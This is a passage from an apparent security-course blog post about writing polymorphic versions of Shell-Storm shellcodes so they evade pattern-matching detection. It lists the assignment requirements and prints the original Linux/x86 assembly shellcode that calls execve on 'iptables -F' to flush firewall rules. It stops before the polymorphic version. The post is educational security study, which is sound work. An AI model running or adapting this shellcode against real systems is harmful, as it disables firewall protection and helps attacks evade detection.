 ```yaml
---
layout: single 
classes: wide
title:  "Polymorphic Shellcode"
date:   2020-03-23 06:54:06 +0800
categories: jekyll update
---
```


This assigment shows 3 [polymorphic](https://en.wikipedia.org/wiki/Polymorphic_code) shellcodes from [Shell-storm.org](http://shell-storm.org/).

## Requirements

- Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat the pattern matching
- The polymorphic versions cannot be larger 150% of the existing shellcode
- Bonus points for making it shorter in length than original

## 1. Linux/x86 - iptables --flush

- Original shellcode size : 43 bytes
- Polymorphic shellcode size: 61 bytes (42% increase)
- Source code: [Linux/x86 - iptables --flush](http://shell-storm.org/shellcode/files/shellcode-825.php)

### Original Shellcode

{% highlight nasm linenos %}
global _start

_start:
    xor eax,eax
    push eax
    push word 0x462d
    mov esi, esp
    push eax
    push 0x73656c62
    push 0x61747069
    push 0x2f6e6962
    push 0x732f2f2f
    mov ebx,esp
    push eax
    push esi
    push ebx
    mov ecx,esp
    mov edx, eax
    mov al,0xb
    int 0x80
{% endhighlight %}
